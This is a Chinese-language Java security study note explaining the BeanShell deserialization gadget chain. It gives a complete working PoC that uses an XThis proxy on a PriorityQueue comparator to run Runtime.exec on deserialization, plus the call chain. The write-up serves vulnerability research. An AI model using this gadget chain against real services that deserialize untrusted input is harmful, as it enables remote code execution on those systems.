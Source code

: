 # Java安全学习—BeanShell链

Author: H3rmesk1t

Data: 2022.03.16

# BeanShell 简介
[BeanShell](https://en.wikipedia.org/wiki/BeanShell) is a small, free, embeddable Java source interpreter with object scripting language features, written in Java. It runs in the Java Runtime Environment (JRE), dynamically executes standard Java syntax and extends it with common scripting conveniences such as loose types, commands, and method closures, like those in Perl and JavaScript.

# 前置知识
## Interpreter
`bsh.Interpreter`是一个将`BeanShell`脚本解释并执行的解释器. 可以通过`set`方法来设置变量, 然后通过`eval`方法来解释和执行脚本, 解析和设置的变量都会保存在`Interpreter`实例的成员变量`globalNameSpace`中. `bsh.NameSpace`就是一个保存着方法、变量、引入包的命名空间. `NameSpace`与一个`Interpreter`实例共同构成了一个`Bsh`脚本对象的上下文.

<div align=center><img src="./images/1.png"></div>

<div align=center><img src="./images/2.png"></div>

## XThis
`bsh.This`是`Bsh`脚本对象类型, 一个`This`对象就是一个`Bsh`脚本的对象的上下文, 一个`This`对象储存了`NameSpace`和`Interpreter`, 并提供了一些方法用于操作上下文中的内容.

<div align=center><img src="./images/3.png"></div>

其中`invokeMethod`方法提供了使用`Java`代码从`Bsh`脚本外部调用方法的功能.

`XThis`是`bsh.This`对象的子类, 在`This`的基础上添加了通用接口代理机制的支持, 即`InvocationHandler`. `XThis`中有一个内部类`Handler`, 实现了`InvocationHandler`接口并重写了`invoke`方法, 调用了`invokeImpl`方法. `invokeImpl`方法特殊处理了`equals`和`toString`方法, 调用`invokeMethod`执行对应的方法, 并使用`Primitive.unwrap`处理返回值.

<div align=center><img src="./images/4.png"></div>

总的来说, `XThis`是一个`Bsh`脚本的对象的代理类, 可以在外部通过这个代理类调用`Bsh`脚本的方法.

# POC
```java
package org.h3rmesk1t.BeanShell;

import bsh.Interpreter;
import bsh.XThis;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 12:11 上午
 */
public class BeanShellExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    
    public static void main(String[] args) throws Exception {

        // compare 函数, 需要接受两个参数, 返回 Integer 类型.
        String func = "compare(Object whatever,Object dontCare) {java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");return new Integer(1);}";

        // 将 compare 方法注册至 Interpreter 实例上下文中.
        Interpreter interpreter = new Interpreter();
        interpreter.eval(func);

        // 创建 XThis 对象, 获取其 invocationHandler.
        XThis xThis = new XThis(interpreter.getNameSpace(), interpreter);
        Field handlerField = XThis.class.getDeclaredField("invocationHandler");
        handlerField.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) handlerField.get(xThis);

        // 使用 XThis$Handler 为 Comparator 创建动态代理
        Comparator<Object> comparator = (Comparator<Object>) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add("1");
        queue.add("2");

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);

        // 序列化操作.
        String exp = serialize(queue);
        System.out.println(exp);

        // 反序列化操作.
        unserialize(exp);
    }
}
```

# 调用链
```java
PriorityQueue.readObject()
    Comparator.compare()
            XThis$Handler.invoke()
                XThis$Handler.invokeImpl()
                    This.invokeMethod()
                        BshMethod.invoke()
```

# 总结
## 利用说明
利用`PriorityQueue`反序列化触发`Comparator`的`compare`方法, 使用`XThis$Handler`动态代理`Comparator`并在其`Interpreter`内构造带有恶意代码的`compare`方法触发调用.

## Gadget
 - kick-off gadget: java.util.PriorityQueue#readObject
 - sink gadget: bsh.This#invokeMethod
 - chain gadget: bsh.XThis$Handler#invokeImpl
 - 补充: 其实可以利用`XThis`来实现任意`kick-off`的触发, 这是因为可以使用动态代理执行任何方法.

# 参考
 - [BeanShell](https://su18.org/post/ysoserial-su18-5/#:~:text=rome%20%3A%201.0-,BeanShell,-BeanShell%20%E6%98%AF%E4%B8%80%E4%B8%AA)